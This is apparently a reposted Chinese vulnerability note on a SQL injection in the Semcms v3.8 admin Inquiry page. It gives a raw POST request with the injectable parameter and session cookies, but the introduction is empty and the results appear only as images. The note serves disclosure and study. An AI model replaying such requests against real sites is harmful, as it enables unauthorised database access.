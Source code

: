 # Semcms v3.8 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3123](https://www.zhihuifly.com/t/topic/3123)

# Semcms v3.8 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.8

## 三、复现过程

> URL: http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php

![image](img/24b32bfb3a0fd141513ec050add0f910.png)

*   POST

```
POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: 0-sec.org
Content-Length: 24
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Connection: close `languageID=&AID%5B%5D=3` 
```

![image](img/edb69747b6e71cbfca00b58e79d63879.png)